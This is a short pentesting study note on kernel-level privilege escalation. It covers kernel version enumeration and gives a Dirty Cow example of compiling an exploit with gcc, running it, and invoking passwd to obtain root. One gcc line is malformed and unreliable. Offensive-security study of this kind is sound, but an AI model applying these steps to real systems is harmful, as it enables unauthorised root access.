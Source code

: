 -- -
Kernel level exploit, exploits against the OS and it's logic. 
#### Enum
You are looking for kernel version on the target system to see what you can exploit. 
![[System#^c36ae3]]
#### Exploitation
This section is more specific to the exploit you find. Each will be different and its own way of exploiting it. So mileage varies depending on the vulnerability. Usually with kernel level exploits, they will be written in C and will require you to compile the exploit and run it on the target. This is also liable to break the system or make it unstable so probably something you note but don't use unless you have no other option. 
##### Dirty Cow Example
```bash
# Get the exploit C code from searchsploit, exploitdb, google, etc
gcc -pthread <dirty cow src>.c -o <outputfile>
gcc pthread c0w.c -o cow
./cow
# Should say: Backing up /usr/bin/passwd to /tmp/bak
# so, it's replacing the passwd binary with a privesc, so run passwd
passwd

# any you should now have root.
```
#### Resources
- https://github.com/lucyoa/kernel-exploits